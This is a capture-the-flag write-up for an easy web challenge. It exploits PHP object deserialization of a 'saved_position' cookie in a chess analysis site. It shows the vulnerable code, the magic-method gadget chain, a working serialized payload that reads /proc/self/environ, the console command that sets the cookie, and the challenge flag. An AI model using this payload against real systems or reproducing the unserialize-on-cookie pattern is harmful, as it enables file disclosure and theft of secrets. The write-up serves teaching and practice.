

```
                    ▗▄▄▖  ▄▄▄  ▗▖   ▗▖   ▄   ▄ 
                    ▐▌ ▐▌█   █ ▐▌   ▐▌   █   █ 
                    ▐▛▀▚▖▀▄▄▄▀ ▐▛▀▚▖▐▛▀▚▖ ▀▀▀█ 
                    ▐▙▄▞▘      ▐▙▄▞▘▐▙▄▞▘▄   █ 
                                          ▀▀▀  
```

**Category:** Web
**Level:** Easy
**Instance:** http://bmnzdgnsz2l4.playat.flagyard.com
> My friend is a chess enthusiast. He has a website where he can analyse his friends games.

**Flag:** FlagY{f0879e26ead83c0faeab87d69e00e20d}

# WHAT EVEN IS THIS

Imagine a chess site where Bobby Fischer’s ghost streams divine commentary... and also hands you a magic key to read any file on the server. That’s what we found.

Technically: the app trusts a cookie called `saved_position`, base64-decodes it, and `unserialize()`-s the result. The app ships with `classes.php` that defines a few PHP classes with `__wakeup()`, `__destruct()`, and `__toString()` behaviors that can be chained together to **make the app read arbitrary files** and print them into the HTTP response.


# WHY THIS IS A PROBLEM (TL;DR)

Untrusted `unserialize()` + class magic methods = remote file disclosure (RFD).

Attack surface: attacker-controlled cookie (`saved_position`) → arbitrary PHP object instantiation and execution of magic code paths.

Short flow:
1. We craft a serialized PHP object graph (a `MoveValidator` that references a `PositionAnalyzer` and a `ChessGame`).
2. `unserialize()` triggers `MoveValidator::__wakeup()` which calls the analyzer with our chess object.
3. `PositionAnalyzer` stores the value, and on script shutdown `__destruct()` echoes it.
4. `echo $chessObject` calls `ChessGame::__toString()` which does `file_get_contents($this->position)`. Boom — file contents turned into page output.

# SOLUTION

First things first, let's check out the source codes `index.php` and `classes.php`. From observing them, we discover several revelations.

(1) The app accepts a cookie that gets `unserialize()`-d. The app decodes the cookie and calls `unserialize()` directly on attacker-controlled data. Then, `unserialize()` will recreate objects of any class present in `classes.php`. This means that we can craft serialized objects that trigger magic methods during deserialization.

```php
// the rest of the index.php code
if (isset($_COOKIE['saved_position'])) {
    try {
        $obj = unserialize(base64_decode($_COOKIE['saved_position']));
    } catch (Exception $e) {
        $error = 'Invalid position data!';
    }
}
// the rest of the index.php code
```

(2) `MoveValidator::__wakeup()` is automatically executed on `unserialize()` and calls into the analyzer with our `chess` object. `__wakeup()` runs during deserialization. If the `MoveValidator` object has `analyzer` and `chess` properties set, `__wakeup()` invokes `validateMove` on the analyzer, passing the `chess` object, which is exactly what we want to link objects together.

```php
// the rest of the classes.php code
class MoveValidator {
    // rest of the code
    public function __wakeup() {
        if ($this->analyzer && $this->chess) {
            $this->analyzer->validateMove($this->chess);
        }
    }
}
// the rest of the classes.php code
```

(3) `PositionAnalyzer::validateMove()` stores the passed object in `$currentPosition`. Our `ChessGame` object becomes stored inside the `PositionAnalyzer` instance; this value will later be used by the destructor. Furthermore, `PositionAnalyzer::__destruct()` echoes `$currentPosition` when the request ends. On script shutdown, PHP will call `__destruct()` on remaining objects. The `echo` will attempt to print whatever object is in `$currentPosition`. If that object is an instance of a class implementing `__toString()`, PHP will call `__toString()` to convert it to a string for echo.

```php
// the rest of the classes.php code
class PositionAnalyzer {
    // rest of the code
    public $currentPosition;
    // rest of the code
    public function validateMove($position) {
        $this->currentPosition = $position;
    }

    public function __destruct() {
        if ($this->currentPosition) {
            echo $this->currentPosition;
        }
    }
}
```

(4) `ChessGame::__toString()` reads a *file path* and returns the file contents. `__toString()` calls `file_get_contents($this->position)`. If we control `$position` (we do, btdubs, via serialization), we can have the server fetch *any file* it can read and return its contents in the HTTP response. This is the final gadget that converts deserialization into **arbitrary file read**.

```php
class ChessGame {
    public $position;
    // rest of the code
    public function __toString() {
        return file_get_contents($this->position);
    }
}
// the rest of the classes.php code
```

Putting them all together, we get a serialized object graph of which is a `MoveValidator` instance with: `analyzer` → `PositionAnalyzer` and `chess` → `ChessGame` where `ChessGame::$position` is the filename we want to read. In our case, let's poke around and see where things are by going through `/proc/self/environ` first. This is because `/proc/self/environ` can reveal environment info (PWD, HOME, etc.) or variables used by the process.

The next problem is, *how to create the payload to read a file?* Following our thoughts above, we will create a payload using the same object chain: `MoveValidator` → `PositionAnalyzer` → `ChessGame` where `ChessGame::$position` is the filename we want to read.

```
O:13:"MoveValidator":3:{s:4:"move";N;s:8:"analyzer";O:16:"PositionAnalyzer":2:{s:10:"gameRecord";N;s:15:"currentPosition";N;}s:5:"chess";O:9:"ChessGame":1:{s:8:"position";s:<L>:"<PATH>";}}
```

where:

- `<PATH>` = file path you want to read
- `<L>` = number of characters in `<PATH>`

So, to seek out `/proc/self/environ`, the payload becomes

```
O:13:"MoveValidator":3:{s:4:"move";N;s:8:"analyzer";O:16:"PositionAnalyzer":2:{s:10:"gameRecord";N;s:15:"currentPosition";N;}s:5:"chess";O:9:"ChessGame":1:{s:8:"position";s:18:"/proc/self/environ";}}
```

Now that we've got that taken care of, let's turn this into a cookie for `saved_position` and reload.

```js
> document.cookie = 'saved_position=' + btoa(
    'O:13:"MoveValidator":3:{s:4:"move";N;s:8:"analyzer";O:16:"PositionAnalyzer":2:{s:10:"gameRecord";N;s:15:"currentPosition";N;}s:5:"chess";O:9:"ChessGame":1:{s:8:"position";s:18:"/proc/self/environ";}}'
    ) + '; path=/';
    
> location.reload();
```



